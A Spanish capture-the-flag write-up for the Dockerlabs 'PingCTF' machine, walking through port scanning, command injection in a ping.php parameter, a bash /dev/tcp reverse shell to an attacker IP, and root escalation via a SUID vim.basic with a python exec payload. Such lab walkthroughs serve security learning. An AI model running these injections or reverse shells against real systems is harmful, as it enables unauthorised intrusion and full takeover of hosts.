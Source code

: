 # 🖥️ Writeup - PingCTF 

**Plataforma:** Dockerlabs  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip PingCTF.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ping_ctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 
```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 19:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```
El único puerto abierto es el puerto `80`, así que vamos a comprobar qué hay alojado.

Encontramos una especie de portal donde podemos verificar la conectividad introduciendo `IPs` o dominios.
![alt text](../images/IP%20verify.png)

Haremos una prueba verificando la conectividad con Google introduciendo `8.8.8.8`.

Se nos redirige a una página de resultados en la que podemos ver que la URL es la siguiente:

```
http://172.17.0.2/ping.php?target=8.8.8.8
``` 

Es decir, el archivo `ping.php` ejecuta un comando `ping` al target que le hemos pasado como parámetro.

Si conseguimos inyectar algún comando propio junto con la `IP`, obtendremos un `RCE` y una potencial vía de intrusión.

Vamos a probar el clásico punto y coma después de la `IP`, seguido de un comando nuestro.

```bash
8.8.8.8;whoami
``` 
![alt text](../images/whoami.png)

Como vemos, ha funcionado y estamos interactuando con el usuario `www-data`.

Ahora vamos a intentar obtener una `reverse shell` a través del `RCE`, y para ello utilizaremos `BurpSuite` para interceptar la petición y manipularla con mayor comodidad.

Una vez interceptada la petición, inyectamos el comando:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
``` 
Luego seleccionamos el comando y pulsamos `Ctrl + U` para aplicar URL encoding.

Colocamos un listener en el puerto `4444` de nuestra máquina atacante.

```bash
nc -nlvp 4444
```
Hacemos `forward` a la petición y recibimos la `reverse shell` en la máquina atacante.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 56276
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@21a8aa7e4e6e:/var/www/html$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vim.basic
```

En los binarios con permisos SUID nos llama la atención el último: `vim.basic`.

Es probable que podamos inyectar comandos en el editor de texto y ejecutarlos como root, así que vamos a intentarlo.

Probamos con los siguientes comandos, pero ninguno de ellos funcionó.

```bash
/usr/bin/vim.basic -c ':!bash -p'
```

```bash
/usr/bin/vim.basic -c ':set shell=/bin/sh' -c ':shell'
```

Finalmente, lo conseguimos con el comando:

```bash
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```
Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Somos root!